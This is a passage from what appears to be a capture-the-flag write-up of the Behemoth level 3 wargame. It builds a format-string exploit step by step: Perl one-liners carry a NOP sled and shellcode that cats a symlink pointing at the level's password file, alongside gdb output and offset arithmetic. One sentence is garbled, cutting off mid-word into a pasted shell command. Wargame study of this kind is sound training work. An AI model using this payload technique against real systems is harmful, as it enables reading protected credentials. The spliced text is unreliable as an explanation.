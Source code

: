 All we need let is an address to jump to for this we will format our string to include the nopsled and the shelbehemoth3@melinda:/tmp/bh3$ ln -s /etc/behemoth_pass/behemoth4 /tmp/b2plcode. When ran in the debugger we can search for our NOP sled and pick a mid-range address to jump to. NOP is represented as "\x90".

Our string now turns into the following

{% highlight perl %}
perl -e 'print "\x90\x97\x04\x08" . "\x92\x97\x04\x08" . "\x90"x64 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80" . "-%6" . "\$n"."-%7\$n"' > input.txt
{% endhighlight %}

Now we just need to search for our nopsled. To do this we search the previous stack pointers.

{% highlight bash %}
(gdb) run < input.txt
Starting program: /games/behemoth/behemoth3 < input.txt

Program received signal SIGSEGV, Segmentation fault.
0x00720071 in ?? ()
(gdb) find $esp,$esp+500, 0x90909090
-- SNIP --
0xffffdd7f
0xffffdd80
0xffffdd81
0xffffdd82
0xffffdd83
0xffffdd84
0xffffdd85
0xffffdd86
0xffffdd87
-- SNIP --
{% endhighlight %}

We have a few address to work with we pick one at random 0xffffdd80

We have our address now all that is left is to overwrite the puts address with the address of one of our NOP’s and we will slide right into our shell code.

To do this we simply have to calculate what decimal integer is needed to get the values we want in hex. While taking into account the amount of characters we already have. We start with the lower bound of the address dd80. The decimal value for this is 56704. Now we subtract the amount of characters we already have in our string which is 114 giving us 56590. We add a buffer to the string by utilizing %u. 

We update our string to look as follows.

{% highlight perl %}
perl -e 'print "\x90\x97\x04\x08" . "\x92\x97\x04\x08" . "\x90"x64 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80" ."-%56590u" . "-%6" . "\$n"."-%7\$n"' > input.txt
{% endhighlight %}

{% highlight bash %}
(gdb) run < input.txt
-- SNIP --
EMPTY LINES CUT OUT
-- SNIP --
Program received signal SIGSEGV, Segmentation fault.
0xdd81dd80 in ?? ()

{% endhighlight %}
